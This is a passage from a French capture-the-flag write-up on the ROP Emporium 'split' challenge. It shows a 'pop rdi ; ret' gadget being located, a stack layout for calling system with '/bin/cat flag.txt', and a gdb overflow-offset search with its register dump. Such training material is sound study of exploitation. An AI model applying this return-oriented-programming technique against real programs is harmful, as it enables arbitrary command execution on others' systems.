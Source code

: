 Le `pop rdi` :

~~~bash
root@kali:~/rop_emporium/split# ROPgadget --binary split | grep "rdi"
0x0000000000400883 : pop rdi ; ret

~~~

Nous allons ici utiliser la fonction `system` pour appeler la string `/bin/cat flag.txt`. 
Pour ce faire, nous devons mettre la chaîne `/bin/cat flag.txt`dans le registre `rdi`. 
Pourquoi `rdi` ? simplement parce qu'il s'agit du registre contenant le premier argument d'une fonction (cf ma cheat sheet).

Voici une représentation de la pile souhaitée : 

|valeur de bourrage|
|------------------|
|pop rdi           |
|/bin/cat flag.txt |
|system            |

Nous allons donc ici récupérer la valeur `/bin/cat flag.txt` et la placer dans `rdi` avec l'instruction `pop rdi ; ret`, 
puis lancer un appel a la fonction `system` pour exécuter le contenus de `rdi`. 

Déterminons maintenant la taille du bourrage nécessaire à créer un dépassement de tampon :

~~~bash
gdb-peda$ pattern_create 64
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH'
gdb-peda$ r
Starting program: /root/rop_emporium/split/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe070 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH\n")
RBX: 0x0 
RCX: 0xfbad2288 
RDX: 0x7fffffffe070 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH\n")
RSI: 0x7ffff7fab8d0 --> 0x0 
RDI: 0x7fffffffe071 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH\n")
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffe098 ("AA0AAFAAbAA1AAGAAcAA2AAH\n")
RIP: 0x400806 (<pwnme+81>:	ret)
R8 : 0x6022a1 --> 0x0 
R9 : 0x7ffff7fb0500 (0x00007ffff7fb0500)
R10: 0x602010 --> 0x0 
R11: 0x246 
R12: 0x400650 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe180 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4007ff <pwnme+74>:	call   0x400620 <fgets@plt>
   0x400804 <pwnme+79>:	nop
   0x400805 <pwnme+80>:	leave  
=> 0x400806 <pwnme+81>:	ret    
   0x400807 <usefulFunction>:	push   rbp
~~~